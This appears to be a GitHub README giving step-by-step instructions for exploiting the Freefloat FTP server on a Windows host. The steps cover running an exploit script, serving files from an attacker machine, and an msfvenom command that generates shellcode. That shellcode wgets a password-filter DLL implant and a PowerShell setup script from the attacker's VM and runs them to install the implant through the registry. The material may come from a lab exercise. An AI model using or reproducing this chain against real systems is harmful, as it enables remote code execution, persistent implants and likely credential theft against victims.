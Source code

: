 Steps to recreate
1. Obtain Freefloat FTP - download and run on a windows host
2. Download cmd.py - the exploit script that will complete the exploit
3. Download PasswordFilter.dll - the compiled implant to be installed via the registry
4. Download setup.ps1 - the powershell script that adds passwordfilter.dll to the registry
5. Run `python3 -m http.server 80` to run a local python listener to use when wget'ing files
6. Create new shell code for cmd.py 
Example: msfvenom -p windows/exec -a x86 CMD="ps.exe wget <kali vm ip>/PasswordFilter.dll -O C:\Windows\sysnative\PasswordFilter.dll; wget <kali vm ip>/setup.ps1 -O C:\temp\setup.ps1; ps.exe C:\temp\setup.ps1" -b "\x00\x0a\x0d" -f c
7. Paste the new shell code into cmd.py ensuring proper indenting and appending b before each " " on each line
8. Run cmd.py